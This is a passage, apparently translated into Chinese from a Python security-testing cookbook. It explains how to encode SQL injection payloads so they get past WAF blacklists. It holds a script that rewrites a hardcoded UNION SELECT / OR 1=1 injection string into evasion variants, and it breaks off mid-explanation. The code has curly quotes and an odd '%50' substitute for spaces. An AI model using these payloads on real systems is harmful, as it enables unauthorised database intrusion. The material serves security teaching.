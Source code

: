 # 编码有效载荷

阻止 SQL 注入的一种方法是通过服务器端文本操作或**Web 应用程序防火墙**（**WAFs**）进行过滤。这些系统针对与攻击常见相关的特定短语，如`SELECT`，`AND`，`OR`和空格。这些可以通过用不太明显的值替换这些值来轻松规避，从而突显了黑名单的一般问题。

我们将创建一个脚本，该脚本接受攻击字符串，查找潜在的转义字符串，并提供替代的攻击字符串。

## 如何做…

以下是我们的脚本：

```py
subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
for line in subs:
  print line
```

以下截图是使用此脚本时产生的输出的示例：

![如何做…](img/B04044_04_03.jpg)

## 它是如何工作的…

这个脚本不需要任何库！真是令人震惊！我们为即将创建的值创建一个空列表，并创建一个意图添加的替代值的字典。我放了五个示例值。空格和`%20`通常被 WAFs 转义，因为 URL 通常不包括空格，除非请求了不当的内容。

更具体地说，调整过的系统可能会避开 SQL 特定词语，比如`SELECT`，`AND`和`OR`。这些都是非常基本的值，可以根据需要添加或替换：

```py
subs = []
values = {“ “: “%50”, “%20”: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
```

我已经将原始字符串硬编码为示例，这样我们就可以看到它是如何工作的。我已经包含了一个包含上述所有值的有效 SQLi 字符串，以证明它的用法：

```py
originalstring = “'%20UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
```

我们创建原始字符串的第二个版本，以便我们可以为每个替换创建一个累积结果和一个独立结果：
